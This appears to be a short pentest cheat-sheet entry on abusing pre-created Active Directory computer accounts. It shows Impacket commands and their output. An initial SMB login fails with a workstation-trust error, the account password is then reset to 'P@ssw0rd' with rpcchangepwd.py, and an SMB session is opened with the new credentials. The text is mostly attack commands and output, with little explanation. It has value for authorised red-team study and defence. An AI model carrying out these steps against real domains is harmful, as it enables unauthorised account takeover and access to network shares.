

27- pre-created-computer-accounts

# find pre-created computer accoung
impacket-smbclient <domain>/<computer account>\$:<password>@<IP>
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] SMB SessionError: STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT(The account used is a computer account. Use your global user account or local user account to access this server.)
# change the password
python3 rpcchangepwd.py <domain>/<computer account>\$:<password>@<IP> -newpass P@ssw0rd 31s
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Password was changed successfully.
## connect to smb with the new creds
impacket-smbclient <domain>/<computer account>\$:<new set password>@<IP>
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Type help for list of commands
#